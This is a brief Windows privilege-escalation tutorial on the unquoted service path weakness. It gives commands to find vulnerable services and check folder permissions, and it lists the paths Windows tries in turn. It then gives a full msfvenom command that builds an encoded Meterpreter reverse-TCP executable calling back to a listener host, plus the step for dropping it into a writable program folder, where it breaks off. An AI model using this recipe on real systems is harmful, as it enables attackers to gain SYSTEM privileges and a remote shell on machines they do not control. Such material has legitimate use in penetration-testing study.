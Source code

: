 ### Unquoted Service Path

Technically Unquoted Service Path vulnerability is caused by the CreateProcess function in Windows operating systems which may allow unprivileged loc users to modify the affected executable file as a system privilege in order to elevate their privileged from unprivilege to system privilged.

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
If you look at the registry entry for this service with Regedit you can see the ImagePath value is:

C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
When Windows attempts to run this service, it will look at the following paths in order and will run the first EXE that it will find:
```
C:\Program.exe
C:\Program Files.exe
C:\Program Files (x86)\Program.exe
C:\Program Files (x86)\Program Folder\A.exe
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
```
If we can drop our malicious exe successfully on one of these paths, upon a restart of the service, Windows will run our exe as SYSTEM.In order to check the permissions of a folder
```
icacls "C:\Program Files (x86)\Program Folder"
icacls "C:\Program Files\Photodex\ProShow Producer\Scsiaccess.exe"
```


msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o A.exe
Let’s place our payload to C:\Program Files (x86)\Program Folder folder:
cd "../../../Program Files (x86)/Program Folder"
